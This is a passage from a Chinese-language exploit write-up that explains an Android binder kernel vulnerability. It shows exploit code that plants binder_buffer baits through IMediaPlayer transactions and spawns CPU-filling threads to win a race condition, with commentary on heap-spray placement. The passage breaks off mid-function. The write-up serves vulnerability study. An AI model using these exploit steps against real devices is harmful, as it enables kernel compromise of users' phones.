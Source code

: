 这里创建一个 test_dir，里面存放 fffdfffdfffdfffd,abcd.txt 两个文件，至于为什么叫这两个名字，是与堆喷占位有关，稍后再说明

```
put_baits();

```

接着是放置诱饵，需要提前分配 binder_buffer，也就是分配后才能释放；

```
void put_baits()
{
	//Avoid the reply data to be released by "~Parcel()"
	for (int i = 0; i < BAIT; i++)
	{
		dataArray[i].writeInterfaceToken(String16("android.media.IMediaPlayer"));
		IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataArray[i], &replyArray[i], 0);
		gDataArray[i] = replyArray[i].data();
		/*for (int j = 0; j < (int)replyArray[i].dataSize(); j++)
		{
			printf("[+] gDataArray[%d][%d], data:%x\n", i, j, gDataArray[i][j]);
		}*/
		//printf("index:%d, user_addr:%p\n", i, gDataArray[i]);
	}
}


```

它在这里做的是 BC_transaction,Br_transaction,Bc_reply,Br_reply 指令这个顺序所做的事，也就是正常 binder ipc 过程，如图

![](https://img-blog.csdnimg.cn/f4900875e09442e9b39acd3ac20fc6ad.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAMjAwMDBz,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

首先 binder_ioctl->binder_thread_write->case BC_Transaction->bc_transaction->binder_alloc_new_buf , 由于我们没有设置 bc_transaction 要传递的数据，不会 alloc,br_transaction 没做什么，关键是 bc_reply，由于我们设置了数据，所以会 alloc binder_buffer 来管理我们的数据，br_reply 将这个 binder_buffer->alloc_user_free 标为 1，这个诱饵所作的事就是等会释放掉他，放入 alloc_>free_buffer 的红黑树中，等到条件竞争时 binder_alloc_new_buf，直接拿出这个 binder_buffer, 而不是进入 binder_size !=size malloc 了 binder_buffer 影响我们的堆喷

```
fillOtherCpu();

```

```
void fillOtherCpu()
{
	int cores = getCores();
	printf("[+] cpu count:%d\n", cores);
	pthread_t id_cpu1, id1_cpu1, id2_cpu1, id3_cpu1, id4_cpu1, id5_cpu1, id6_cpu1, id7_cpu1;
	pthread_t id_cpu2, id1_cpu2, id2_cpu2, id3_cpu2, id4_cpu2, id5_cpu2, id6_cpu2, id7_cpu2;
	pthread_t id_cpu3, id1_cpu3, id2_cpu3, id3_cpu3, id4_cpu3, id5_cpu3, id6_cpu3, id7_cpu3;
	int cpu1 = 0;
	int cpu2 = 2;
	int cpu3 = 3;
	pthread_create(&id_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id1_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id2_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id3_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id4_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id5_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id6_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id7_cpu1, NULL, fillCpu, &cpu1);

	pthread_create(&id_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id1_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id2_cpu2, NULL, fillCpu, &cpu2);
```